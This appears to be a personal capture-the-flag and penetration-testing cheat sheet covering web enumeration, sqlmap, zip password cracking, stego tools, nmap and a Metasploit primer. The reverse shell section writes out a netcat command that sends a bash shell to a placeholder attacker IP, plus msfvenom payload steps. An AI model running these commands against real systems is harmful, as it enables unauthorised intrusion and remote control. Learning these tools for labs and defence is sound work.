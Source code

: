 # WEB
- Check for robots.txt
- gobuster -e -u [url] -w /usr/share/wordlists/dirb/common.txt
- searchsploit -r (buscar exploits de apps web)
- sqlmap:

		sqlmap -u URL --method=POST --data="user=&password=" -p "user" --dbs
- wpscan: scanner for wordpress
	- --url
	- --enumerate [-u for usernames]
	- --log
# CRYPTO
- https://quipqiup.com/
- http://www.cryptoprograms.com/

# BINARY EXPLOITATION
- to get asm code run 'objdump -d [binary file] > out.S'
- gdb

# STEGO
- strings
- xxd or hexdump -C
- binwalk
- steghide extract -sf
- fcrackzip

		fcrackzip -v -m zip6 -l 4-8 -u secret.zip
		fcrackzip -D -v -u -p /usr/share/wordlists/rockyou.txt secret.zip
- password generator: https://github.com/Broham/PassGen

# SHELL
- vim:
	- :colo elflord
- vulnerabilities in commands: gtfobins.github.io
- tmux:
	^B +
	- , (rename window)
	- ! (new window from split)
	- & (kill window)
	- % (vertical split)
	- " (horizontal split)
	- arrows (switch windows)

# BOXES
- sudo -l: gives the files you can access without root password
- privilege escalation: https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
## reverse shell
- - reverseshells: https://github.com/infodox/python-pty-shells
- Option1:  
	- attacked: nc -nv [attackerIP] [port] -e bash  
	- attacker: ncat -l [port] 
- Option2:  
	- msfvenom -p [payload] LHOST= LPORT= --format=  
	- Upload payload and execute.  
	- on metasploit exploit/multi/handler (specify same payload, host and port)


## nmap:
- sT -> three way handshake
- sC -> standard scripts
- sV -> versions
- oA

## METASPLOIT
to start it:
		
		service postgresql start
		msfdb init
		msfconsole

6 types of modules:
- exploits: take advantage of a systems vulnerability and install a payload on the system.
- payloads: what we will try and plant on the system. Usually called rootkits.
	- singles: small pieces of code designed to take one single action.
	- stagers: to perform or create a communication between target and attacker.
	- stages: large payloads allowing potentially bigger atacks.
- auxiliary: unique types of attacks, robust tools. DOS functionality, scanners, crawlers, sniffers...
- encoders: to re-encode payloads. To get past security systems (anti-virus). Evasion techniques.
- nops: no-operation. Forces a processor to do nothing for an entire clockcycle. To exploit the buffer overflow
- post: after the system has been exploited.

useful commands:
- help
- use: allow to load a module.
- show: give you information on the module yo have loaded.
	- options
	- payloads
	- targets
	- info: about the exploit
- set: set options
- search:
	- platform:[windows, linux..]
	- name
	- type:[type of module]
- exploit: runs the exploit
- back: unload a module
- exit: exit metasploit

Modules are stored in /usr/share/metasploit-framework/modules

